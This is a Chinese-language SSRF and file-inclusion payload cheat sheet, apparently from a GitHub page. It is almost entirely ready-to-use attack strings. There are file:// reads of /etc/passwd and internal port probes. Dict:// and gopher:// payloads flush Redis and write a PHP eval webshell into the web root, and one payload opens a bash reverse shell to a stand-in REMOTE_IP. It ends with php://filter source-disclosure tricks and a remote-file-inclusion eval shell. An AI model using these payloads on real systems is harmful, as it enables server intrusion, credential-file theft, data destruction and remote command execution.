 ## SSRF

- `file` 协议

```
file:///etc/passwd
file://C:/path/to/file
```

- `http` 协议

```
http://127.0.0.1:22
http://192.168.1.123:80
http://10.10.10.10:443
```

- `dict` 协议（操作redis）

```
dict://127.0.0.1:3306
dict://127.0.0.1:6379/FLUSHALL
dict://127.0.0.1:6379/CONFIG SET dir /var/www/html
dict://127.0.0.1:6379/CONFIG SET dbfilename file.php
dict://127.0.0.1:6379/SET x "<\x3Fphp eval($_GET[0])\x3F>"
dict://127.0.0.1:6379/SAVE
```

- `gopher` 协议（操作redis）

```
gopher://127.0.0.1:6379/_config set dir /var/www/html
gopher://127.0.0.1:6379/_config set dbfilename reverse.php
gopher://127.0.0.1:6379/_set payload "<?php shell_exec('bash -i >& /dev/tcp/REMOTE_IP/REMOTE_PORT 0>&1');?>"
gopher://127.0.0.1:6379/_save
```


```
data://text/plain,<?=phpinfo();?>
data://text/plain;base64,PD89cGhwaW5mbygpOz8%2B

php://input
<?=phpinfo();?>

php://filter/convert.base64-encode/resource=key.php
php://filter/string.rot13/resource=key.php
```

- 远程文件包含

```
<?=@eval($_POST['cmd']);?>

http://10.0.0.1:7331/l33t.txt
http://10.0.0.1:7331/l33t.txt?foo=bar
```
